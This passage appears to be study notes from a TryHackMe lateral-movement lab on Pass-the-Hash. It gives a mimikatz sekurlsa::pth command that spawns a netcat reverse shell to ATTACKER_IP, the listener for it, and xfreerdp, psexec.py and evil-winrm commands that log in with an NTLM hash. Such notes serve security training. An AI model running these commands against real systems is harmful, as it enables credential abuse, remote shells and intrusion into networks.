 
##### Step 3: Performing `Pass-the-Hash` attack using `mimikatz` to inject an access token for the victim user on a reverse shell (or any other command you like) as follows:

```powershell
mimikatz # token::revert
mimikatz # sekurlsa::pth /user:bob.jenkins /domain:za.tryhackme.com /ntlm:6b4a57f67805a663c818106dc0648484 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5555"
```

	Breakdown:
	- "token::revert" : to reestablish our original token privileges, as trying to "pass-the-hash" with an elevated token won't work.
	- this is equivalent to "runas /netonly" but with a hash instead of a password and will spawn a new reverse shell from where we can launch any command as the victim user.

##### Step 4: Receiving the reverse shell:

```bash
user@AttackBox$ nc -lvp 5555
```

- Interestingly, if you run the `whoami` command on this shell, it will still show you the original user you were using before doing `Pass-the-Hash`, but any command run from here will actually use the credentials we injected using `Pass-the-Hash`.

##### Step 5: Passing the Hash using Linux:
- If you have access to a linux box (like your AttackBox), several tools have built-in support to perform `Pass-The-Hash` using different protocols.
- Depending on which services are available to you, you can do the following:


**Connect to RDP using Pass-the-Hash:**

```bash
$ xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH
```


**Connect via `psexec` using `Pass-the-Hash`**:

```bash
$ psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP
```

**Note**: Only the linux version of `psexec` support `Pass-the-Hash`.

	- So, we can only use Linux machines when doing Pass-the-Hash attacks when using `psexec` specifically?

**Connect to `WinRM` using `Pass-The-Hash`**:

```bash
$ evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH
```


## `Kerberos Authentication`
